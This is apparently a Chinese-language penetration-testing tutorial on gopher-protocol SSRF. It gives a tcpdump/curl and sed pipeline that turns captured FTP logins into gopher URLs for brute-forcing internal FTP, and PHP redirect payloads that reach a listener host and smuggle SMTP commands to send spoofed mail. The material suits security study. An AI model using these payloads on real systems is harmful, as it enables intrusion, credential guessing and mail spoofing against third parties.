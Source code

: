 #### 攻击内网ftp

ftp 只能通过tcp 连接，gopher 协议支持ftp 操作，利用gopher 可以暴破ftp 的账号密码，暴破完了之后可以尝试上传文件。

**What is ftp**

FTP（File Transfer Protocol）是一种用于在计算机网络上进行文件传输的标准协议。它允许用户通过网络在不同的计算机之间传输文件，包括文本、图像、音频、视频等各种类型的文件。

FTP协议工作方式是通过客户端和服务器之间的交互来完成文件传输。客户端通过FTP客户端软件连接到服务器，然后使用FTP协议命令来传输文件。FTP协议支持两种模式：ASCII模式和二进制模式。在ASCII模式下，文件以ASCII字符集传输，适用于文本文件；而在二进制模式下，文件以字节流方式传输，适用于非文本文件。

**How to attack**

利用gopher 可以暴破ftp 的账号密码，暴破完了之后可以尝试上传文件。

fit格式

```
ftp://{username}:{password}@{host}:{port}/{path}
```

```
tcpdump -i lo -s 0 -w ~/ftp.cap
curl ftp://root:root@127.0.0.1/
```

模拟一边原始数据，并以原始数据的形式保存下来，

```
USER root
PASS root
QUIT
```

这里只保存这几个

```shell
cat 1|sed 's/ /%20/g'|sed ':a;N;s/\n/%0d%0a/;ta;'|sed -r 's/(.*)/gopher:\/\/192.168.73.130:21\/_\1/g'|sed 's/%/%25/g'|sed 's/:/%3a/g'
```

将拿到的包url编码两次，就可以用bp进行爆破了

#### SMTP in Gopher

SMTP是一种简单的邮件服务，但是SMTP并不支持http，因此通常使用gopher协议走私到smtp

返回连接到1337

```
文件位于 xxx.com/redirect.php:
<?php
header("Location: gopher://listenner_ip:1337/_SSRF%0ATest!");
?>
```

发送邮件

```php
Content of xxx.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
```